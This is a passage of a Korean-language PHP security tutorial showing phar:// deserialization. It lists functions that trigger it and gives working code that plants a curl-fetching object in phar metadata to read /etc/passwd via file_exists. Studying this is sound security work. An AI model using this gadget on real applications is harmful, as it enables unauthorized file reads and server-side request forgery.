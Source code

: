 > - fileatime('phar://test.phar'); 
> - filemtime('phar://test.phar');
> - filectime('phar://test.phar'); 
> - filetype('phar://test.phar'); 
> - getimagesize('phar://test.phar'); 
> - exif_read_data('phar://test.phar'); 
> - stat('phar://test.phar'); 
> - lstat('phar://test.phar'); 
> - touch('phar://test.phar‘); 
> - md5_file('phar://test.phar');
> - and so on..

우선 아래의 코드를 통해 phar을 생성해줍니다. 

```php
ini_set('phar.readonly',0);

class Requests{
    public $url;

    function __construct($url){
        $this->url = $url;
    }
    function __destruct(){
        $ch = curl_init();
        curl_setopt($ch, CURLOPT_URL, $this->url);
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
        $output = curl_exec($ch);
        echo $output;
    }
}

@unlink("phar.phar");
$phar = new Phar("phar.phar");
$phar->startBuffering();
$phar->addFromString("test.txt","test");
$phar->setStub("<?php echo 'STUB!'; __HALT_COMPILER(); ?>");
$obj = new Requests('file:///etc/passwd');
$phar->setMetadata($obj);
$phar->stopBuffering();
```

phar을 생성할 때 중요한 점은 <u>phar의 Metadata에 unserialize를 할 Object가 들어가야 합니다.</u>

여기서는 /etc/passwd를 요청하는 phar파일을 생성하였습니다.

이제 아래의 코드를 통해 file_exists시에 정상적으로 /etc/passwd가 열리는지 확인해봅니다.

```php
ini_set('phar.readonly',0);
class Requests{
    public $url;

    function __construct($url){
        $this->url = $url;
    }
    function __destruct(){
        $ch = curl_init();
        curl_setopt($ch, CURLOPT_URL, $this->url);
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
        $output = curl_exec($ch);
        echo $output;
    }
}

file_exists("phar://phar.phar");
```